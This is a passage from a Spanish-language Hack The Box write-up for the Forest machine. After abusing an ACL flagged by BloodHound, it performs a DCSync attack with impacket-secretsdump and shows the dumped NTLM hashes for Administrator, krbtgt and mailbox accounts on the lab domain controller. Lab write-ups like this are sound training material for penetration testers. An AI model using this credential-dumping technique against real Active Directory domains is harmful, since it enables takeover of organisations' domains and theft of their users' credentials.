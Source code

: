 Como hemos importado directamente la función, ya podríamos ejecutar el comando que nos decía el **BloodHound**.

![](/assets/images/htb-writeup-forest/add_domain_object_acl.png)

# DCSync Attack

Vale, una vez hecho esto, ahora deberíamos poder realizar un **DCSync Attack**, así que vamos a probarlo.

```bash
h3g0c1v@kali:~/htb/forest$ impacket-secretsdump htb.local/h3g0c1v@10.10.10.161
Impacket v0.9.25.dev1+20220105.151306.10e53952 - Copyright 2021 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
```